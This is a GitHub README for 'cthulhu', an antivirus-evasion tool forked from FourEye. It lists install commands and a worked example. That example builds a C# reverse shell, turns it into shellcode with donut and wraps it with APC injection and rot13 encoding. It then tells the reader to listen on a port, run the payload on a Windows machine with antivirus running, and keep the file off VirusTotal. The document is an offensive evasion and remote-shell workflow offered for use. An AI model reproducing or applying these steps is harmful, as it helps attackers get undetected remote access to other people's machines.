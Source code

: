 

# cthulhu

AV Evasion, a FourEye fork (by Leginbo https://github.com/lengjibo) 

# Install

git clone https://github.com/foxlox/cthulhu

cd cthulhu

chmod 755 setup.sh

./setup.sh

python3 cthulhu.py
    
    
![immagine](https://user-images.githubusercontent.com/28823598/128512455-1bad09e2-9616-4333-ad37-db895705ff02.png)
  
    
![immagine](https://user-images.githubusercontent.com/28823598/128512283-4e75f989-f5fd-4e54-b954-7741fc231add.png)


# Example

1. Create a new Visual Studio C# Console Project

2. Add reverse.cs and set IP and PORT

3. Build it

4. go to Linux box

5. $ donut compiledapp.exe -o ca.bin

6. $ python3 cthulhu.py -method apc -arch x86 -bin ca.bin -enc rot13

[+]shellcode created: /tmp/shellcode.exe

8. Bind the right port on your linux box and wait.

9. Copy shellcode.exe on Windows box and run it. Don't remember to start your Antivirus.

10. Don't upload your shellcode.exe on Virustotal


    *fox
    
